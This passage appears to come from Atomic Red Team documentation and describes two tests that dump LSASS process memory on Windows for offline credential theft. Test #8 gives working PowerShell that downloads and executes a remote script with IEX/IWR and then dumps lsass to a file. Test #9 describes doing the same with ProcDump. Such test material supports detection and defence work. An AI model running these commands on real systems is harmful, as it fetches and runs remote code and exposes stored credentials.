 ## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1
The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:TEMP\lsass_*.dmp.

Author of Out-Minidump: Matthew Graeber (@mattifestation)

**Supported Platforms:** Windows


**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
try{ IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1') -ErrorAction Stop}
catch{ $_; exit $_.Exception.Response.StatusCode.Value__}
get-process lsass | Out-Minidump
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows
